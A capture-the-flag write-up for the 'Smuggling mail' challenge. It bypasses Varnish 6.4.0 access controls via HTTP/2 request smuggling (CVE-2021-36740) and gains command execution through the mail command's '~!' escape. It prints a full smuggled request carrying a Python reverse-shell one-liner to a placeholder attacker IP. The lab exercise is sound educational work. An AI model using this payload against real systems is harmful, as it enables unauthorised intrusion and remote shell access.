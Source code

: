 # Smuggling mail(423 pts) write up

# Recon
## Infomation Gathering
The challenge provided a gzip compressed tar file `smuggling-mail.tar.gz`.
We can find following files in the tarball.
```
smuggling-mail
├── challenge
│   ├── admin
│   │   ├── css
│   │   │   └── styles.css
│   │   ├── index.html
│   │   └── js
│   │       └── scripts.js
│   ├── flag.txt
│   ├── package.json
│   ├── public
│   │   ├── css
│   │   │   └── styles.css
│   │   ├── index.html
│   │   └── js
│   │       └── scripts.js
│   └── server.js
├── config
│   ├── entrypoint.sh
│   ├── hitch.conf
│   ├── supervisord.conf
│   └── varnish.vcl
├── Dockerfile
└── run.sh
```
Threre are several important info you can gather from these files.
- The service is using Varnish cache server with version 6.4.0 from Dockerfile file
- Varnish handles both h2, http/1.1 protocols based on the hitch.conf
- Varnish is checking the access to the endpoints which contains `/admin` string based on varnish.vcl
    - it is also check the http Authorization header matches `^Basic TOKEN$` pattern and TOKEN is randomized.
- There is only **four** real endpoints which are `/`, `/admin`, `/waitlist`, `/admin/alert` based on the server.js.
    - `/` and `/admin` only returns static files
    - `/waitlist` only return a string respond `Sorry, the waitlist is currently closed.`
    - only `/admin/alert` endpoint is interesting because executing a command called `mail`. The `mail` command takes anything client `POST` through the `msg` parameter

## Next Steps
First we check if there is exsits vulnerbilities for the varnish since we know the version is 6.4.0. There is one: **CVE-2021-36740**.
After reading https://labs.detectify.com/2021/08/26/how-to-set-up-docker-for-varnish-http-2-request-smuggling/, I found out I can bypass the varnish access checking using this vulnerbility.

The next thing is checking if there is anything wrong with the `mail` command so I can force it to read flag.txt and return it to me.

At the first glance of the google results, there is no noticeble vulnerbilities for this command.
However, I found out that the command `mail` can actually execute system command using `~!` which is similar to vim's syntax.
So this is all I need to get a reverse shell from the actual docker container.

# exploit(RCE)
Using the http request as the following:
    - the reverse shell one liner is url encoded. the original one linder is `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("THIS.IS.YOUR.IP",THEPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
    - There is a trailing `%0A`(line break) at the end of the payload otherwise the payload maynot work.
```
POST /waitlist HTTP/2
Host: 127.0.0.1:8080
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 1

a

POST /admin/alert HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 346

msg=~%21%20python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22THIS.IS.YOUR.IP%22%2CTHEPORT%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27%%0A
```
use Netcat to listen any port you want in your server which has a public **IP**
```
# cat flag.txt <--- this should give u the flag
flag{t35t_f14g_g035_h3r3} <---- this is not the real flag. Sorry forget to save it.
```
